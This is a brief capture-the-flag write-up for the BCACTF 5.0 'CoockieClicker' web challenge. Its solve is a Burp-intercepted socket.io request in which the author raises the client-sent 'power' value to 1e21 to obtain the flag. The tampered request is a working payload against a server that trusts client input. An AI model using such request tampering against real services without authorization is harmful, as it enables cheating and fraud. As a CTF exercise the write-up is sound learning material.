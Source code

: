 # BCACTF 5.0

## CoockieClicker - 100 | webex

### Description: 
You need to get 1e20 cookies, hope you have fun clicking!


Web servers:

`challs.bcactf.com:31386`

Static resources:
 [here](https://arcs-s3-repo.nyc3.cdn.digitaloceanspaces.com/cookie-clicker/provided.js).


### Solve :

so we are given a page that increments the points in every click 

after we intercepted with burp and change the requesst to 

```
POST /socket.io/?EIO=4&transport=polling&t=O_-C4nL&sid=L4lYyQZn0TXdXj6GAADY HTTP/1.1
Host: challs.bcactf.com:31829
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: /
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: text/plain;charset=UTF-8
Content-Length: 53
Origin: http://challs.bcactf.com:31829
Connection: close
Referer: http://challs.bcactf.com:31829//

42["click","{\"power\":1e21,\"value\":}"]
```

we got our flag 



